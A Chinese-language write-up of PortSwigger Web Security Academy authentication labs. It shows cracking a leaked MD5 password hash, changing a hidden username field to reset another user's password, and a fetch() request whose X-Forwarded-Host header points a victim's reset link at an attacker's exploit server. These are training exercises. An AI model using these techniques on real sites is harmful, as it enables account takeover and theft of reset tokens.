 ```js
atob(`Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz`);
// carlos:26323c16d5f4dabff3bb136f2460a943
```

[MD5 reverse](https://md5.gromweb.com/?md5=26323c16d5f4dabff3bb136f2460a943) 之後

```
carlos:onceuponatime
```

成功登入 && 刪除帳號～

常見的 MD5 hashed 弱密碼可以透過 [線上的 MD5 Reverse 工具](https://md5.gromweb.com/) 來得知，我也是最近才得知的，因為 MySQL 跟 FileZilla Server 都會存 MD5 Hashed 密碼

## Lab: Password reset broken logic

| Dimension | Description                                                                                          |
| --------- | ---------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/authentication/other-mechanisms#resetting-passwords-using-a-url |
| Lab       | https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-broken-logic |

在 `/forget-password` 頁面的表單看到

```html
<input required="" type="hidden" name="username" value="wiener" />
```

改成 `carlos` 就可以成功修改受害者的密碼～

## Lab: Password reset poisoning via middleware

| Dimension | Description                                                                                                      |
| --------- | ---------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/authentication/other-mechanisms#resetting-passwords-using-a-url             |
| Lab       | https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-poisoning-via-middleware |

這題我怎覺得是 Expert 等級，主要是我沒想到要用 `X-Forwarded-Host`

```js
fetch(
  "https://0a65009404c6b12682350b1f008900d0.web-security-academy.net/forgot-password",
  {
    headers: {
      "content-type": "application/x-www-form-urlencoded",
      "X-Forwarded-Host":
        "exploit-0ae9008f0486b173822c0a6d014a008f.exploit-server.net",
    },
    body: "username=carlos",
    method: "POST",
    mode: "cors",
    credentials: "include",
  },
);
```
